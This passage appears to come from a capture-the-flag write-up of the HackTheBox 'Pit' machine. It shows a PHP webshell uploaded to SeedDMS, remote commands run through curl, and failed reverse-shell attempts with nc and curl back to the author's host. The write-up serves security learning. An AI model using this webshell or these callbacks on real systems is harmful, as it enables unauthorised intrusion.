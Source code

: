 I'll upload my favorite simple PHP webshell:



    <?php system($_REQUEST["cmd"]); ?>



![](/img/image-20210514130144165.png)

The document ID is 31.



    oxdf@parrot$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0



That's code execution! This file is deleted every 5-10 minutes, so I may
have to upload again, and the document id will increment as well.

### Reverse Shell Fail

I tried a bunch of things to get a reverse shell, but they all failed.
When I couldn't even get `curl` to connect to my host, I guessed maybe a
firewall, but it was still acting weird.



    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=curl http://10.10.14.7 2>&1'



Looking at a `nc` connection back to me, it also failed:



    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=nc 10.10.14.7 443 2>&1'
    Ncat: Permission denied.



Permission denied is interesting. I'll look at the file:



    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /bin/nc'
    lrwxrwxrwx. 1 root root 22 May 10 10:56 /bin/nc -> /etc/alternatives/nmap
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /etc/alternatives/nmap'
    lrwxrwxrwx. 1 root root 13 May 10 10:56 /etc/alternatives/nmap -> /usr/bin/ncat
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/ncat'
    -rwxr-xr-x. 1 root root 644376 Nov  8  2019 /usr/bin/ncat
